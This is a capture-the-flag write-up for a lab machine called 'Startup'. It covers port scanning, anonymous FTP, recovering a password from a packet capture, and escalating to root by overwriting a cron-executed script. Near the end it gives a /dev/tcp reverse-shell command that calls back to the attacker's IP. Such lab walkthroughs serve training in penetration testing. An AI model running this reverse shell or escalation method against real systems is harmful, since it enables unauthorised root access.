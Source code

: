 # Startup

## Nmap

```
sudo nmap 10.10.85.9 -p- -sS -sV     

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Anonymous login is allowed on FTP. We have two files a jpg and a txt document. I downloaded both. I also checked for file upload on the ftp directory within and was able to upload a test document.

![](<../../../.gitbook/assets/image (1012).png>)

**Contents of notice.jpg:**

```
Whoever is leaving these damn Among Us memes in this share.
It IS NOT FUNNY. People downloading documents from our website 
will think we are a joke! Now I dont know who it is, but Maya is 
looking pretty sus.
```

**Important.jpg:**

![](<../../../.gitbook/assets/image (1013) (1).png>)

```
python3 dirsearch.py -u http://10.10.85.9 -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 60 --full-url 
```

![](<../../../.gitbook/assets/image (1015) (1).png>)

![](<../../../.gitbook/assets/image (1016) (1).png>)

![](<../../../.gitbook/assets/image (1014).png>)

Looking through the directories in '/' we have the incidents folders and within with have a pcapng file of interest. We can host a Python SimpleHTTPServer on the target machine in this directory.

```
python -m SimpleHTTPServer 8080
```

![](<../../../.gitbook/assets/image (1017).png>)

Then use `wget` on our attacking machine to download the pcapng file.

![](<../../../.gitbook/assets/image (1018) (1).png>)

Going through Wireshark manually for each packet we find an interesting string on packet #178.

![](<../../../.gitbook/assets/image (1019).png>)

Right clicking the packet and following the TCP Stream reveals more information and shows a command history log from a web shell. Likely due to previous compromise.

![](<../../../.gitbook/assets/image (1020).png>)

We cant take the password value and SSH in as the other user on the box who is Lennie.

![](<../../../.gitbook/assets/image (1021).png>)

We can see from Lennie's home directory a scripts folder. planner.sh is of interest but looks like we are unable to manipulate the file.

![](<../../../.gitbook/assets/image (1022).png>)

However, the file print.sh which is executed as part of planner.sh is owned by us.

![](<../../../.gitbook/assets/image (1023) (1).png>)

First we need to check if the scripts are executed as part of a timed process. I downloaded pspy64 onto the attacking machine and executed.

After a short while we see the following is executed on regular intervals:

![](<../../../.gitbook/assets/image (1024).png>)

As such we can replace the contents of /etc/print.sh with that of a reverse shell and wait for a root shell to spawn.

```
echo  > /etc/print.sh
echo '0<&196;exec 196<>/dev/tcp/10.14.3.108/443; sh <&196 >&196 2>&196' > /etc/print.sh
```

![](<../../../.gitbook/assets/image (1025).png>)

As soon receive a shell as root.

![](<../../../.gitbook/assets/image (1026) (1).png>)
